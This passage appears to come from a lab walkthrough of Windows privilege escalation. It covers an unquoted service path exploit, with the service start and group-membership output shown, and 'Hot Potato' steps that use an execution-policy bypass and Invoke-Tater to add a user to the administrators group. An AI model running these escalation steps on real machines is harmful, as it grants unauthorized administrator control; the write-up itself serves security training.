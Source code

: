 
Download the executable on Windows, in `C:\Program Files\Unquoted Path Service\common.exe`, and start the service. We are noow in the administrators group.

~~~
C:\Users\user>sc start unquotedsvc

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2684
        FLAGS              :

C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

As the path was not protected with quotes, Windows will consider the first program that matches the name, event if it is not complete:

* Expected service:  `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
* Malicious service: `C:\Program Files\Unquoted Path Service\Common.exe`

# [Task 11] Potato Escalation - Hot Potato

## #11.0 - Instructions

**Exploitation**

Windows VM

1. In command prompt type: `powershell.exe -nop -ep bypass`
2. In Power Shell prompt type: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
3. In Power Shell prompt type: `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
4. To confirm that the attack was successful, in Power Shell prompt type: `net localgroup administrators`
